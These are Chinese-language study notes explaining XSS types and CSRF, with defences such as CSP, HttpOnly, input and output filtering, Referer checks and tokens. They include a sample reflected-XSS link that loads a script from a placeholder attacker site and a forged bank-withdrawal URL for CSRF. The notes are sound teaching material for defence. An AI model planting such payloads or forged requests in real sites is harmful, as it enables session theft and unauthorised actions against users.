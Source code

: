 ## XSS 和 CSRF
### XSS
- XSS，即 Cross Site Script，中译是跨站脚本攻击；其原本缩写是 CSS，但为了和层叠样式表(Cascading Style Sheet)有所区分，因而在安全领域叫做 XSS。

- XSS 攻击是指攻击者在网站上注入恶意的客户端代码，通过恶意脚本对客户端网页进行篡改，从而在用户浏览网页时，对用户浏览器进行控制或者获取用户隐私数据的一种攻击方式。

- 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。

- XSS攻击可以分为3类：反射型（非持久型）、存储型（持久型）、基于DOM。

#### 反射型
- 反射型攻击是指用户提交恶意代码给服务器，服务器又将恶意代码反射给浏览器端，例如在url请求中加上script代码，那么浏览器在访问相应url时就会执行恶意代码
```html
<a href ="http://www.****.com?x=<script src = http://攻击者网站/hacker.js />诱惑文本</a>
```
- 发出请求时，XSS代码出现在URL中，作为输入提交到服务器，服务器解析后响应，XSS代码随着响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，故叫做反射型XSS。

#### 存储型

- 存储型 XSS 会把用户输入的数据 "存储" 在服务器端，当浏览器请求数据时，脚本从服务器上传回并执行。这种 XSS 攻击具有很强的稳定性。

- 比较常见的一个场景是攻击者在社区或论坛上写下一篇包含恶意 JavaScript 代码的文章或评论，文章或评论发表后，所有访问该文章或评论的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。

#### 基于DOM
- 基于 DOM 的 XSS 攻击是指通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击。

### XSS 攻击的防范
现在主流的浏览器内置了防范 XSS 的措施，例如 CSP。但对于开发者来说，也应该寻找可靠的解决方案来防止 XSS 攻击。
https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

* HttpOnly 防止劫取 Cookie
* 输入检查 - 不要相信用户的任何输入。 对于用户的任何输入要进行检查、过滤和转义。建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。在 XSS 防御中，输入检查一般是检查用户输入的数据中是否包含 <，> 等特殊字符，如果存在，则对特殊字符进行过滤或编码，这种方式也称为 XSS Filter。

* 输出检查
用户的输入会存在问题，服务端的输出也会存在问题。一般来说，除富文本的输出外，在变量输出到 HTML 页面时，可以使用编码或转义的方式来防御 XSS 攻击。例如利用 sanitize-html 对输出内容进行有规则的过滤之后再输出到页面中。


### CSRF
- CSRF，即 Cross Site Request Forgery，中译是跨站请求伪造，是一种劫持受信任用户向服务器发送非预期请求的攻击方式。

- 通常情况下，CSRF 攻击是攻击者借助受害者的 Cookie 骗取服务器的信任，可以在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击服务器，从而在并未授权的情况下执行在权限保护之下的操作。

### CSRF防御的常规思路
- 验证HTTP Referer字段，它记录了该HTTP请求的来源地址。在通常情况下，访问一个安全受限页面的请求其referer需要来自同一个网站，比如需要访问'http://bank.example/withdraw?account=bob&amount=1000000&for=hack'，用户需要先登陆到bank.example,然后通过页面的转账按钮来触发转账事件。这时，该请求的referer值就是按钮所在的那个页面的url。但是如果黑客要实施CSRF攻击的话，referer的值就会是黑客所搭建的那个网站的url，而一经银行的服务器验证是站外请求，就会直接拒绝，从而防御CSRF攻击。

- 在请求地址中添加token并验证 - CSRF能够成功完全是因为黑客能够伪造用户的请求，在该请求中所有的用户验证信息都存在于cookie中，因此黑客才可以利用cookie来通过安全验证。要抵御CSRF，关键在于在请求中放入黑客不能伪造的信息，并且该信息不存在在cookie中。那么我们就可以在HTTP请求中以参数的形式加入一个随机生成的token，并在服务器端建立一个拦截器来验证这个token，如果请求中没有token或token的内容的不正确，则认为不安全从而直接拒绝该请求。(一般是服务器端生成的)

- 在HTTP头中自定义属性并验证,这里也是使用token并进行验证，和上一种方法不同的是，这里并不是把token以参数的形式置于HTTP请求中去，而是把它放到HTTP投中自定义的属性里。